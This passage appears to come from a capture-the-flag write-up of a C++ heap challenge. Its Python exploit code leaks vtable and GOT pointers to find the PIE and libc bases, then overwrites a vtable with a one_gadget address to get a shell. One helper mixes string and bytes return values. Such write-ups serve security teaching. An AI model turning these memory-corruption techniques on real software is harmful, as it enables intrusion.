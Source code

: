 The pointer leaked is either `Food`'s vtable or `Bamboo`'s vtable, depending on what `food[idx]` was.

![](image-20210711113202397.png)

I'll use that information to calculate the PIE base:

```python
def checkWhich(idx: int) -> str:
    '''figure out if foods[idx] was a Bamboo or a Food.
    Destroys the current `favorite`.'''
    fav(idx)
    Eat()
    flush()
    return 'bamboo' if b'crunch' in r.recvline() else b'food'
context.binary.address = pie_leak - (0x2e7d78 if checkWhich(1) == 'bamboo' else 0x2e7d50)
```

The next part is almost robotic: leaking libc from the GOT.

```python
context.libc = context.libc_database.libc_find({f:leak(context.binary.got[f]) for f in ['malloc', 'free']})
```

Finally, I just need to set `favorites->_vtable = &one_gadget` to win. I flood the heap with copies of `one_gadget` and leak out its position accordingly to pop a shell:

```python
og = context.libc.select_gadget(1) # (2) doesn't work; memset() in chall.cc was optimised out in the actual binary...
alloc(2, pack(og)*0x1ff) # flood the heap with the one_gadget to make finding heap offset easier
fakeFood(pack(heapbase+next(i for i in range(0,0x5000,0x800) if leak(heapbase+i) == og)))
flush()
Eat()
r.interactive()
```
